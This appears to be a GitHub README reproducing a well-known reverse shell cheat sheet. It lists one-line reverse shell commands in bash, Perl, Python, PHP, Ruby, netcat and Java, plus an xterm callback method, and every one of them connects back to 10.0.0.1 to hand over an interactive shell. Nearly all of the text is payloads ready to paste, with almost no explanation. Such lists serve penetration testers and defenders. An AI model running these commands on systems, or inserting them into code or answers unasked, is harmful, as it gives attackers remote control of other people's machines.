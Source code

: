 ### bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Python2.7
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### netcat way 1
```
nc -e /bin/sh 10.0.0.1 1234
```

### netcat way 2
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java (did not test yet)
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm
 The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```
xhost +targetip
```

### Reference
[Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


